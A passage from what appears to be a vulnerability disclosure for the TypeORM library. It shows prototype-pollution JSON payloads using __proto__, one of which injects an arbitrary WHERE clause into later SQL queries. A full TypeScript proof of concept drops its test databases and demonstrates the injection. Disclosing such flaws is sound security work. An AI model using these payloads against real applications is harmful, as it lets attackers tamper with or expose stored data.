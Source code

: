 ```javascript
const post = JSON.parse(`{"text":"a","title":{"__proto__":{"polluted":{}}}}`)
```

An SQL injection can be triggered with the following payload, that will add an arbitary WHERE clause to any following query:

```javascript
const post = JSON.parse(`{"text":"a","title":{"__proto__":{"where":{"name":"sqlinjection","where":null}}}}`)
```

A complete proof of concept that can trigger a SQL injection by only depending on the library code is reported here:

(based on https://github.com/typeorm/typescript-example)
_sqli.ts_
```typescript
import { createConnection, getConnection } from "typeorm";
import { Post } from "./entity/Post";
import { Category } from "./entity/Category";

async function cleanUp() {
    await createConnection("mongo")
    await createConnection("mysql")
    const mongoConnection = getConnection("mongo")
    const mysqlConnection = getConnection("mysql")
    await mongoConnection.dropDatabase()
    await mysqlConnection.dropDatabase()
    await mongoConnection.close()
    await mysqlConnection.close()
}

async function main() {
    await cleanUp()
    await createConnection("mongo")
    await createConnection("mysql")
    const mongoConnection = getConnection("mongo")
    const mysqlConnection = getConnection("mysql")

    const post = JSON.parse(`{"text":"a","title":{"__proto__":{"where":{"name":"sqlinjection","where":null}}}}`)

    try {
        await mongoConnection.manager.save(Post, post)
        console.log("Post has been saved: ", post)
        const saved = await mongoConnection.manager.find(Post)
        console.log("Posts were found: ", saved)
    } catch (err) {
        console.error(err)
        const category = new Category()
        category.name = 'category'
        await mysqlConnection.manager.save(Category, category)
        const categories = await mysqlConnection.manager.find(Category, {}) // WHERE name = "sqlinjection"
        console.log("Categories were found: ", categories)
    }
}

main().catch(error => console.log("Error: ", error))
```
